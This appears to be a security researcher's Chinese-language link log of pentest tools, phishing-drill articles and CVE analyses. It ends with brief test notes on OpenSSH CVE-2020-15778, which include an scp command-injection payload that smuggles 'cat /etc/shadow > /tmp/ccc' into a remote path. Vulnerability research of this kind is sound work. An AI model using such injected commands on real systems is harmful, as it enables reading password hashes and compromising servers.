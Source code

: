 [Java安全编码之sql注入](https://www.anquanke.com/post/id/212897)

活动 | Black Hat USA 2020最值得期待的11种安全工具
https://www.anquanke.com/post/id/213032

O.G. AUTO-RECON：一款功能强大的基于Nmap结果的目标枚举工具
https://www.freebuf.com/sectool/243589.html

Hackingtool：一款针对渗透测试人员的多合一测试套件
https://www.freebuf.com/sectool/244997.html

[如何规划企业钓鱼邮件演练？](https://www.freebuf.com/articles/es/244599.html)

[渗透测试面试问题合集](https://www.freebuf.com/articles/web/245742.html)

[Weblogic 远程命令执行漏洞（CVE-2020-14645）分析](https://nosec.org/home/detail/4524.html)

[Weblogic 远程命令执行漏洞（CVE-2020-14644）分析](https://nosec.org/home/detail/4522.html)

## 20200806

DNS 域名搜索的反域名搜索
https://rapiddns.io/
https://securitytrails.com/

[📡 PoC auto collect from GitHub.|good](https://github.com/nomi-sec/PoC-in-GitHub)

[1999-2020年存量CVE数据分析、监控CVE增量更新、基于深度学习的CVE EXP预测和自动化推送](https://github.com/404notf0und/CVE-Flow)

[【FreeBuf字幕组】Hacker101白帽进阶之路-Cookie篡改技术和安全架构评审|视频](https://www.freebuf.com/video/245576.html)


[安全研究 | Nginx反向代理钓鱼](https://www.freebuf.com/articles/web/243404.html)

[这可能是netcat最全的使用指南](https://www.freebuf.com/sectool/243115.html)

[dom4j XML外部实体注入漏洞 （CVE-2020-10683）](http://www.nsfocus.net/vulndb/47453)

[OpenSSH 命令注入漏洞（CVE-2020-15778）](http://www.nsfocus.net/vulndb/47482)
[OpenSSH 命令注入漏洞（CVE-2020-15778）](https://www.4hou.com/posts/vD70)
[Write up for CVE id CVE-2020-15778.](https://github.com/cpandya2909/CVE-2020-15778/)
scp  /sourcefile remoteserver:'`touch /tmp/exploit.sh`/targetfile'

+ 使用root来执行还是scp用户: 是scp用户

```bash
scp ./abc ubuntus:'`cat /etc/shadow > /tmp/ccc`/tmp/abc'
```

+ gitlab的git是否会受到影响，现在看，没有
+ 0权限的是否能运行，不能

[blog](http://octopress.org/)
[disqus](https://disqus.com/)

构造： scp ./abc ubuntus:'`cat /etc/shadow > /tmp/ccc`/tmp/abc'

gitlab:

```bash
/var/opt/gitlab/.ssh/authorized_keys
command="/opt/gitlab/embedded/service/gitlab-shell/bin/gitlab-shell key-711",no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty ssh-rsa AAAAxxxx
```
